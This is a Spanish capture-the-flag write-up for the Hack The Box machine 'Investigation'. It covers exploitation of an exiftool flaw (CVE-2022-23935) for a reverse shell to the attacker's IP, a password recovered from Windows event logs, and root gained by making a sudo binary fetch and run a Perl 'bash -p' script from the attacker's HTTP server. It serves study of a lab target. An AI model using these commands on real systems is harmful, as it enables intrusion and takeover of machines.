


pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: Investigation Writeup
Welcome to my detailed writeup of the medium difficulty machine “Investigation” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.228.203 --ulimit 5000 -g
10.129.228.203 -> [22,80]
$ nmap -p22,80 -sCV 10.129.228.203 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 23:07 CEST
Nmap scan report for 10.129.228.203
Host is up (0.037s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
| 256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_ 256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open http Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://eforenzics.htb/
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
UDP Enumeration
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.228.203 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 23:08 CEST
Nmap scan report for 10.129.228.203
Host is up (0.038s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT STATE SERVICE
22381/udp closed unknown
23965/udp closed unknown
24910/udp closed unknown
26289/udp closed unknown
28645/udp closed unknown
31412/udp closed unknown
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
Solo vemos el puerto 80/TCP como posible vector de ataque, en el anterior escaneo hemos detectado el dominio eforenzics.htb así que lo añadimos al /etc/hosts
HTTP Enumeration
$ whatweb http://eforenzics.htb
http://eforenzics.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.228.203], JQuery[3.4.1], Meta-Author[eForenzics], Script, Title[eForenzics - Premier Digital Forensics], UncommonHeaders[upgrade]
Por ahora parece que no existe ningún CMS por detrás.
El sitio web se ve así.
Podemos ver algunas valoraciones, nos vamos a apuntar estos usuarios por si acaso.

En el recurso service.html podemos ver un formulario de subida de archivo

Se apunta al recurso upload.php
Nos pide que subamos una imagen jpg
Upload an image file and we will provide a detailed forensic analysis. At this time we can only process jpg images.
Si subimos una imagen nos redirecciona a http://eforenzics.htb/analysed_images/testjpg.txt

Vemos que se está utilizando exiftool

Foothold -> CVE-2022-23935
Podemos intentar inyectar un comando modificando el filename pero esto no funciona.

Buscando exploits encontramos algunos que nos llama la atención. 
Recordemos que la versión era la 12.37
Podemos utilizar este PoC
Este PoC automáticamente se pone en escucha por el puerto 443 pero podemos generar el payload y luego ponernos nosotros en escucha con pwncat-cs
$ sudo python3 CVE-2022-23935.py 10.10.14.85 443
Subimos el archivo que genera.

¡Y ganamos acceso!
Ahora nos salimos de esa shell, nos ponemos en escucha con pwncat-cs por el puerto 443 y subimos otra vez el archivo.

User Pivoting
(remote) www-data@investigation:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
Vemos que solo existe el usuario smorton a parte de root
Encontramos un archivo de este usuario un tanto extraño
(remote) www-data@investigation:/home$ find / -type f -user smorton 2>/dev/null
/usr/local/investigation/Windows Event Logs for Analysis.msg
(remote) www-data@investigation:/usr/local/investigation$ file Windows\ Event\ Logs\ for\ Analysis.msg
Windows Event Logs for Analysis.msg: CDFV2 Microsoft Outlook Message
Un archivo con la extensión .msg es un archivo de mensaje utilizado principalmente por Microsoft Outlook y otras aplicaciones de correo electrónico que son compatibles con el formato de Microsoft Outlook.
Es decir, viendo su peso (1,3M) contiene mensajes de correo, quizás alguno sea interesante.
Este es un archivo en formato MS-Outlook pero podemos convertirlo en un archivo .eml.
sudo apt-get install libemail-outlook-message-perl libemail-sender-perl
Convertimos el archivo…
$ msgconvert msg.msg
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/investigation/content]
└──╼ [★]$ ls
msg.eml msg.msg test.jpg
Podemos analizar el archivo eml con encryptomatic y vemos un mensaje sobre que se debe analizar unos logs.

El archivo zip contiene un archivo security.evtx
Este archivo .evtx es un archivo de registro de eventos de Windows para almacenar eventos de registro del sistema y aplicaciones.
Podemos leer este archivo con https://github.com/omerbenamram/evtx
Nos descargamos la herramienta de aquí
Y guiándonos con este artículo https://medium.com/@salim.y.salimov/a-hassle-free-evtx-to-json-converter-not-only-for-windows-but-linux-and-mac-os-too-82adc4d9d158
Ahora podemos convertir el archivo evtx a un formato json
$ ./evtx -o json -f security.json security.evtx
Y ya podemos analizarlo tranquilamente…
$ cat security.json | head -n 10
Record 1
{
"Event": {
"#attributes": {
"xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
},
"System": {
"Provider": {
"#attributes": {
"Name": "Microsoft-Windows-Eventlog",
...
Consultando la biblia del hacking (HackTricks)
Encontramos el formato de este log y encontramos lo que significa los identificadores de los IDs

Realmente los logs mas importantes relacionados con la autenticación de los usuarios son los que he marcado.
Si revisamos el evento 4624 no encontramos nada pero si revisamos el evento 4625…
$ cat security.json | grep ": 4625" -C 20
"PackageName": "MICROSOFT_AUTHENTICATION_PACKAGE_V1_0",
"TargetUserName": "lmonroe",
"Workstation": "EFORENZICS-DI",
"Status": "0xc000006a"
}
}
}
Record 7985
{
"Event": {
"#attributes": {
"xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
},
"System": {
"Provider": {
"#attributes": {
"Name": "Microsoft-Windows-Security-Auditing",
"Guid": "54849625-5478-4994-A5BA-3E3B0328C30D"
}
},
"EventID": 4625,
"Version": 0,
"Level": 0,
"Task": 12544,
"Opcode": 0,
"Keywords": "0x8010000000000000",
"TimeCreated": {
"#attributes": {
"SystemTime": "2022-08-01T16:34:51.543729Z"
}
},
"EventRecordID": 11371170,
"Correlation": {
"#attributes": {
"ActivityID": "6A946884-A5BC-0001-D968-946ABCA5D801"
}
},
"Execution": {
"#attributes": {
"ProcessID": 628,
"ThreadID": 5128
--
"PackageName": "MICROSOFT_AUTHENTICATION_PACKAGE_V1_0",
"TargetUserName": "hmraley",
"Workstation": "EFORENZICS-DI",
"Status": "0xc0000064"
}
}
}
Record 8418
{
"Event": {
"#attributes": {
"xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
},
"System": {
"Provider": {
"#attributes": {
"Name": "Microsoft-Windows-Security-Auditing",
"Guid": "54849625-5478-4994-A5BA-3E3B0328C30D"
}
},
"EventID": 4625,
"Version": 0,
"Level": 0,
"Task": 12544,
"Opcode": 0,
"Keywords": "0x8010000000000000",
"TimeCreated": {
"#attributes": {
"SystemTime": "2022-08-01T16:50:07.137703Z"
}
},
"EventRecordID": 11371603,
"Correlation": {
"#attributes": {
"ActivityID": "6A946884-A5BC-0001-D968-946ABCA5D801"
}
},
"Execution": {
"#attributes": {
"ProcessID": 628,
"ThreadID": 604
--
"PackageName": "MICROSOFT_AUTHENTICATION_PACKAGE_V1_0",
"TargetUserName": "Def@ultf0r3nz!csPa$$",
"Workstation": "EFORENZICS-DI",
"Status": "0xc0000064"
}
}
}
Record 10146
{
"Event": {
"#attributes": {
"xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
},
"System": {
"Provider": {
"#attributes": {
"Name": "Microsoft-Windows-Security-Auditing",
"Guid": "54849625-5478-4994-A5BA-3E3B0328C30D"
}
},
"EventID": 4625,
"Version": 0,
"Level": 0,
"Task": 12544,
"Opcode": 0,
"Keywords": "0x8010000000000000",
"TimeCreated": {
"#attributes": {
"SystemTime": "2022-08-01T19:15:15.374769Z"
}
},
"EventRecordID": 11373331,
"Correlation": {
"#attributes": {
"ActivityID": "6A946884-A5BC-0001-D968-946ABCA5D801"
}
},
"Execution": {
"#attributes": {
"ProcessID": 628,
"ThreadID": 6800
Y detectamos algo extraño, alguien ha intentado iniciar sesión como el usuario Def@ultf0r3nz!csPa$$
"TargetUserName": "Def@ultf0r3nz!csPa$$"
Tiene toda la pinta de contraseña, y probando como el usuario smorton…
$ ssh smorton@10.129.228.203
smorton@10.129.228.203's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-137-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Tue 13 Aug 2024 08:15:41 PM UTC
System load: 0.0 Processes: 231
Usage of /: 59.4% of 3.97GB Users logged in: 0
Memory usage: 13% IPv4 address for eth0: 10.129.228.203
Swap usage: 0%
0 updates can be applied immediately.
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
smorton@investigation:~$ id
uid=1000(smorton) gid=1000(smorton) groups=1000(smorton)
Y podemos leer la flag de usuario
smorton@investigation:~$ cat user.txt
023b407268bf8bc00...
Privilege Escalation
Como smorton detectamos que podemos ejecutar un binario como el usuario root
smorton@investigation:~$ sudo -l
Matching Defaults entries for smorton on investigation:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User smorton may run the following commands on investigation:
(root) NOPASSWD: /usr/bin/binary
Si lo ejecutamos..
smorton@investigation:/usr/bin$ sudo binary
Exiting...
Reversing with GHidra
Decompilando el binario con ghidra
undefined8 main(int param_1,long param_2)
{
__uid_t _Var1;
int iVar2;
FILE *__stream;
undefined8 uVar3;
char *__s;
char *__s_00;
if (param_1 != 3) {
puts("Exiting... ");
/* WARNING: Subroutine does not return */
exit(0);
}
_Var1 = getuid();
if (_Var1 != 0) {
puts("Exiting... ");
/* WARNING: Subroutine does not return */
exit(0);
}
iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
if (iVar2 != 0) {
puts("Exiting... ");
/* WARNING: Subroutine does not return */
exit(0);
}
puts("Running... ");
__stream = fopen(*(char **)(param_2 + 0x10),"wb");
uVar3 = curl_easy_init();
curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
curl_easy_setopt(uVar3,0x2711,__stream);
curl_easy_setopt(uVar3,0x2d,1);
iVar2 = curl_easy_perform(uVar3);
if (iVar2 == 0) {
iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
__s = (char *)malloc((long)iVar2 + 1);
snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
__s_00 = (char *)malloc((long)iVar2 + 1);
snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
fclose(__stream);
curl_easy_cleanup(uVar3);
setuid(0);
system(__s_00);
system("rm -f ./lDnxUysaQn");
return 0;
}
puts("Exiting... ");
/* WARNING: Subroutine does not return */
exit(0);
}
if (param_1 != 3) { puts("Exiting... "); exit(0); }
El programa verifica si el primer argumento (param_1) es igual a 3. Si no es 3, imprime “Exiting…” y termina la ejecución.
_Var1 = getuid(); if (_Var1 != 0) { puts("Exiting... "); exit(0); }
Obtiene el identificador de usuario (UID) actual usando getuid(). Si el UID no es 0 (que normalmente representa el usuario root), imprime “Exiting…” y termina la ejecución.
iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn"); if (iVar2 != 0) { puts("Exiting... "); exit(0); }
Compara un valor obtenido de param_2 con la cadena "lDnxUysaQn". Si no coinciden, imprime “Exiting…” y termina la ejecución.
Sabiendo esto…
smorton@investigation:/usr/bin$ sudo binary 3 lDnxUysaQn
Running...
^C
Luego realiza una descarga de un binario que realiza una petición de descarga al primer parámetro.
__stream = fopen(*(char **)(param_2 + 0x10),"wb"); uVar3 = curl_easy_init(); curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8)); curl_easy_setopt(uVar3,0x2711,__stream); curl_easy_setopt(uVar3,0x2d,1); iVar2 = curl_easy_perform(uVar3);
- Abre un archivo para escritura binaria con el nombre obtenido de
param_2. - Inicializa una sesión de
libcurly configura las opciones:- URL desde la que descargar (
curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8))). - Archivo para guardar la descarga (
curl_easy_setopt(uVar3,0x2711,__stream)). - Opciones adicionales (
curl_easy_setopt(uVar3,0x2d,1)).
- URL desde la que descargar (
- Realiza la descarga (
curl_easy_perform(uVar3)).
if (iVar2 == 0) { iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10)); __s = (char *)malloc((long)iVar2 + 1); snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10)); iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s); __s_00 = (char *)malloc((long)iVar2 + 1); snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s); fclose(__stream); curl_easy_cleanup(uVar3); setuid(0); system(__s_00); system("rm -f ./lDnxUysaQn"); return 0; }
Si la descarga es exitosa (iVar2 == 0):
- Crea una cadena que contiene el nombre del archivo descargado.
- Construye un comando para ejecutar el archivo descargado usando Perl (
perl ./filename). - Limpia recursos y restablece el UID al valor de root (
setuid(0)). - Ejecuta el comando con
system()para ejecutar el archivo descargado. - Borra el archivo descargado con
system("rm -f ./lDnxUysaQn").
Vemos que efectivamente, descarga un binario con el nombre lDnxUysaQn aunque esta no es exitosa.

-rw-r--r-- 1 root root 0 Aug 13 20:25 lDnxUysaQn este archivo es de root y en principio debería de ser un script en perl que luego se ejecutará.
Exploiting our knowledge
Vamos a ver si como hemos visto en el código si estableciendo el primer parámetro mi IP me llega una petición de descarga.
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
$ sudo binary http://10.10.14.85:8081/pointedsec lDnxUysaQn
Running...
Exiting...
¡Perfecto!
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.203 - - [14/Aug/2024 00:31:55] code 404, message File not found
10.129.228.203 - - [14/Aug/2024 00:31:55] "GET /pointedsec HTTP/1.1" 404 -
Ahora simplemente serviremos un script en perl que se ejecutará en el sistema.
privesc.
#!/usr/bin/perl
use strict;
use warnings;
exec("bash -p");
Lo servimos por el puerto 8081 y al ejecutar el binario estableciendo este archivo como segundo parámetro..
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.228.203 - - [14/Aug/2024 00:32:56] "GET /privesc.pl HTTP/1.1" 200 -
Nos convertimos en root
smorton@investigation:/tmp$ sudo binary http://10.10.14.85:8081/privesc.pl lDnxUysaQn
Running...
root@investigation:/tmp# id
uid=0(root) gid=0(root) groups=0(root
Y ya podríamos leer la flag de root
root@investigation:/tmp# cat /root/root.txt
13310bc79b0a86a...
¡Y ya estaría!
Happy Hacking! 🚀